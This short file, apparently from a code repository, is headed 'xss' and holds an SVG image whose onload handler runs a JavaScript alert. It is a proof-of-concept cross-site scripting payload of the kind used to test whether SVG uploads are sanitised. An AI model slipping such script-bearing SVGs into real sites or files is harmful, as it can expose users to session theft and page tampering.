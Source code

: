 # xss
<svg xmlns="http://www.w3.org/2000/svg" onload="alert('XSS via SVG!')">
  <circle cx="50" cy="50" r="40" fill="red" />
</svg>
